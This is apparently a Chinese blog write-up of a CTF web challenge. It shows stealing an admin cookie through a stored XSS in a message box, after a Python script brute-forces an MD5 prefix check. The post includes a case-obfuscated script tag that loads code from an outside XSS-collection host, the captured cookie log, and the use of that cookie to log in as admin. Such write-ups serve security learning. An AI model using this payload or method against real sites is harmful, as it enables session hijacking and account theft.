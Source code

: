 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XSS攻击--获取cookie  # 标题 
subtitle:   跨站脚本攻击   #副标题
date:       2020-03-14              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - XSS  
    
    
---
```


## 原理:

跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

xss漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的，所以xss漏洞关键就是寻找参数未过滤的输出函数。




## 题目:
Leave a message:（                  ）

substr(md5('       '),0,6) === '51a081'



## 考察点：

**1.XSS攻击获取cookie**

**2.md5截断绕过**

## 知识点：

**实例**

从字符串中返回 "world"：
--- php
<?php
echo substr("Hello world",6);
?>
---

语法：`substr(string,start,length)` 

**start**
             必需。规定在字符串的何处开始。
             正数 - 在字符串的指定位置开始
             负数 - 在从字符串结尾的指定位置开始
              0 - 在字符串中的第一个字符处开始
**length**
             可选。规定要返回的字符串长度。默认是直到字符串的结尾。
             正数 - 从 start 参数所在的位置返回
             负数 - 从字符串末端返回


## 解题过程：

**1.** 首先分析页面代码，发现留言框里面可能出现xss漏洞，然后我发现要想成功插入留言内容，必须需要满足`substr(md5('       '),0,6) === '51a081' `的条件，此条代码的含义是括号中的字符串的md5值前六位为`51a081`，可以通过python脚本进行字典爆破。

--- python
import hashlib
for i in range (100000000):
    a=str(i)
    md5=hashlib.md5(a.encode('utf-8')).hexdigest()
    if md5[0:6]=='51a081':
        break
print (a)

---

得到结果：`252192`

**2.** 允许插入的条件满足了，然后就是利用[XSS平台](https://xsshs.cn/)进行获取`cookie`。先在XSS平台，创建项目，选取默认设置即可。然后将项目后的XSS代码，`<sCRiPt/SrC=//xsshs.cn/PArz>`插入留言框，等待几分钟，发现XSS平台已经得到了管理员的`cookie`。

---
location : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
toplocation : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
cookie : token=a9011a0e551f181c1c526881befac44d
opener : 

---

**3.**将cookie复制下来，用菜刀进行登录admin.php界面，拿到flag！



**flag{this_is_a_xss_flag}**





[参考链接（一）--XSS简介](https://www.jianshu.com/p/4fcb4b411a66)

[参考链接（二）--XSS平台的使用](https://www.sohu.com/a/111617739_458138)

## 谢谢您的查阅，欢迎来访！
